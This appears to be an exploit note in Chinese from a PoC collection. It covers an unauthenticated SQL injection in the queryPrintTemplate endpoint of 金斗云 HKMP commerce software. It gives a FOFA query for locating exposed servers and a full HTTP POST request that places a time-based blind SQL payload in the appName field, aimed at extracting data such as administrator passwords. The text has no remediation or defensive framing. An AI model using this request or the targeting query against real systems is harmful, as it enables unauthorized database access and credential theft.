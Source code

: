 # 金斗云HKMP智慧商业软件queryPrintTemplate存在SQL注入漏洞

金斗云HKMP智慧商业软件queryPrintTemplate存在SQL注入漏洞，未经身份验证攻击者可通过该漏洞数据库数据，如管理员账户密码等。

## fofa

```yaml
body="金斗云 Copyright"
```

## poc

```java
POST /admin/configApp/queryPrintTemplate HTTP/1.1
Host: {{Hostname}}
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/119.0.6045.159 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Content-Type: application/json

{"appId":"hkmp","data":{"adminUserCode":"test1234","adminUserName":"test1234","appName":"悟空POS Win版' AND (SELECt 5 from (select(sleep(2)))x) and 'zz'='zz","configGroup":"1","mchId":"0001"},"deviceId":"hkmp","mchId":"hkmp","nonce":3621722933,"sign":"hkmp","timestamp":1719306504}
```

